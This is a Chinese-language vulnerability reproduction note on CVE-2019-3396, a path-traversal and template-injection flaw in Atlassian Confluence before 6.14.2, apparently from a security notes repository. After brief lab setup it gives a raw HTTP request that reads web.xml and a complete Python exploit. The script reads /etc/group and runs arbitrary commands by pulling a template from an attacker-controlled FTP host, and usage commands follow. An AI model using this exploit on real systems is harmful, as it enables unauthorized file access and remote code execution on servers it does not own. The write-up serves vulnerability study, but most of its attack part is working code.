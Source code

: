 # Atlassian Confluence 路径穿越与命令执行漏洞

> 漏洞说明

Atlassian Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。



> 前提条件

版本：Atlassian Confluence < 6.14.2



> 利用工具

[exp](https://github.com/Yt1g3r/CVE-2019-3396_EXP/blob/master/RCE_exp.py)



> 漏洞复现

环境启动后，访问http://192.168.40.77/:8090进入安装引导，选择“Trial installation”，之后会要求填写license key。官网未找到申请试用途径，网上找个key尝试

![image-20221219121339034](../img/Atlassian-Confluence_CVE-2019-3396/image-20221219121339034.png)

配置数据库

![image-20221219121452483](../img/Atlassian-Confluence_CVE-2019-3396/image-20221219121452483.png)

后续其他配置看着选，成功搭建环境

![image-20221219123203782](../img/Atlassian-Confluence_CVE-2019-3396/image-20221219123203782.png)

但key过期还是无法试用

![image-20221219123952722](../img/Atlassian-Confluence_CVE-2019-3396/image-20221219123952722.png)

官网也没有购买链接

![image-20221219123910380](../img/Atlassian-Confluence_CVE-2019-3396/image-20221219123910380.png)

读取文件web.xml,POC如下

```http
POST /rest/tinymce/1/macro/preview HTTP/1.1

Host: xxx.xxx.xxx:8090

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0

Accept: text/plain, */*; q=0.01

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Content-Type: application/json; charset=utf-8

Content-Length: 168

Origin: http://xxx.xxx.xxx.xxx:8090

Connection: close

Referer: http://xxx.xxx.xxx.xxx:8090/pages/resumedraft.action?draftId=65587&draftShareId=3aae85b8-030c-44bb-b8f4-d33a1771591c

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}

```



命令执行EXP

```python
# -*- coding: utf-8 -*-
import re
import sys
import requests
import ssl
try:
    _create_unverified_https_context = ssl._create_unverified_context
except AttributeError:
    pass
else:
    ssl._create_default_https_context = _create_unverified_https_context

def _read(url):
    result = {}
    # filename = "../web.xml"
    filename = 'file:////etc/group'

    paylaod = url + "/rest/tinymce/1/macro/preview"
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
        "Referer": url + "/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&",
        "Content-Type": "application/json; charset=utf-8"
    }
    data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"%s"}}}' % filename
    r = requests.post(paylaod, data=data, headers=headers)
    # print r.content
    if r.status_code == 200 and "wiki-content" in r.text:
        m = re.findall('.*wiki-content">\n(.*)\n            </div>\n', r.text, re.S)

    return m[0]



def _exec(url,cmd):
    result = {}
    filename = "ftp://1.1.1.1/cmd.vm"

    paylaod = url + "/rest/tinymce/1/macro/preview"
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
        "Referer": url + "/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&",
        "Content-Type": "application/json; charset=utf-8"
    }
    data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"http://www.dailymotion.com/video/xcpa64","width":"300","height":"200","_template":"%s","cmd":"%s"}}}' % (filename,cmd)
    r = requests.post(paylaod, data=data, headers=headers)
    # print r.content
    if r.status_code == 200 and "wiki-content" in r.text:
        m = re.findall('.*wiki-content">\n(.*)\n            </div>\n', r.text, re.S)

    return m[0]



if __name__ == '__main__':

    if len(sys.argv) != 3:
        print 'Usage: RCE_exp.py http[s]://target.com:8080/ "ls -al"'
        sys.exit(0)
    url = sys.argv[1]
    cmd = sys.argv[2]
    print _exec(url,cmd)
    
```

用法

```shell
python -m pyftpdlib -p 21
python RCE_exp.py http://xxx.xx.xx.xx:8090 "id"
```



